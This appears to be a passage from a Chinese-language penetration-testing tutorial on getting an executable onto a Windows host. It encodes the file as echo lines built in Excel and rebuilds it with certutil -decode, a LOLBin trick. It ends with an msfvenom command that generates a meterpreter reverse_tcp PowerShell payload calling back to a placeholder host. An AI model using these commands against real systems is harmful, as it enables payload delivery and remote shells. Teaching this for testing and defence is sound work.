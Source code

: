 和 A 列一样，在 E 列第一行，快速填充 `&& echo`。注意开头和末尾各有一个空格。

F 列直接把 D 行数字复制过来即可。

最后 G 列快速填充 `>> FileEchoStatus`，就可以了。注意开头有一个空格。

![Excel 数据处理后的结果.png](assets/1708583756-e0973e38379574c72870994f4783b170.png)

将表格另存为 txt，把第一行追加重定向，改成覆盖，防止文件已经存在导致数据错乱这种低级问题。

最后使用 Windows 自带笔记本将其中的 Tab 制表符给删除（VSCode 不知道为啥把空格也识别成 Tab），防止在命令行中粘贴自动把 Tab 识别成选中文件，至少在 Windows 命令提示符中粘贴输入是这样。

```bash
echo    TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     >> record && echo  2
```

![替换制表符.png](assets/1708583756-0a64d04ef8804b9998b76a195c75cdaf.png)

所有命令执行完成后，没有任何传输失败的情况，再把还原成应用。这里是将 record 成功还原回 1.exe。

```bash
E:\Desktop>Certutil -decode record 1.exe
输入长度 = 396412
输出长度 = 288256
CertUtil: -decode 命令成功完成。
```

像是这种思路也很常见，比如把文件做一些编码，尽可能让编码后的数据短些，后面在通过系统自带的工具进行解码，这种利用正常的自带的工具也叫 [LOLBin](https://lolbas-project.github.io/)。

#### 2.1.6 Powershell

1.生成 PowerShell 脚本上线。

生成 ps1 脚本指定反连接地址和端口。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f psf-reflection -o attack.ps1
```
